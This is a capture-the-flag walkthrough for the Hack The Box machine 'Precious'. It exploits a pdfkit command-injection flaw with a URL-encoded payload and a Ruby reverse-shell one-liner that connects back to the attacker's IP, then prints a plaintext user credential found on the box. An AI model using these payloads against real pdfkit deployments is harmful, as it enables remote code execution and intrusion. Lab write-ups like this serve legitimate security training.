



# [Precious](https://app.hackthebox.com/machines/Precious)

## Overview

- Linux machine
- Easy

## Scan

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-20 10:54 EST
Nmap scan report for 10.10.11.189
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http
|_http-title: Did not follow redirect to http://precious.htb/
```

## Analysis

http request:



start a http server using python:

```bash
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8
10.10.11.189 - - [21/Feb/2023 09:34:57] "GET / HT
```

Post my ip address => browser start downloading a pdf file:



analysis the downloaded pdf file:

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ exiftool v9kl5z210dbx1pwnb2vv3kec8wytjedl.pdf 
ExifTool Version Number         : 12.55
File Name                       : v9kl5z210dbx1pwnb2vv3kec8wytjedl.pdf
Directory                       : .
File Size                       : 36 kB
File Modification Date/Time     : 2023:02:20 12:33:11-05:00
File Access Date/Time           : 2023:02:20 12:33:11-05:00
File Inode Change Date/Time     : 2023:02:20 12:33:11-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

## pdfkit and vulnerabilities

pdfkit create PDFs using plain old HTML+CSS. Uses wkhtmltopdf on the back-end which renders HTML using Webkit.

vulnerability: [Command Injection Affecting pdfkit package, versions <0.8.7.2](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

## exploit pdfkit vulnerability

each time i send this request, my python http server receives a request too:

```http
POST / HTTP/1.1
Host: precious.htb

url=http%3a%2f%2fexample.com%2f%3fname%3d%2520%60curl%2010.10.14.4%60

______________________________
decoded payload: url=http://example.com/?name=`curl 10.10.14.4`
```



=> command injection ok

start netcat listen on port 4242, then injection a ruby payload that create a reverse shell:

- payload: `ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.4","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'` from payloads all the things

- result:

  ```bash
  ┌──(kali㉿kali)-[~]
  └─$ nc -lvp 4242
  listening on [any] 4242 ...
  connect to [10.10.14.4] from precious.htb [10.10.11.189] 44834
  whoami
  ruby
  ```

## find first flag

```bash
find / -name "user.txt"
/home/henry/user.txt
ls -l /home/henry/user.txt
-rw-r----- 1 root henry 33 Feb 20 10:52 /home/henry/user.txt

```
henry:Q3c1AqGHtoI0aXAYFH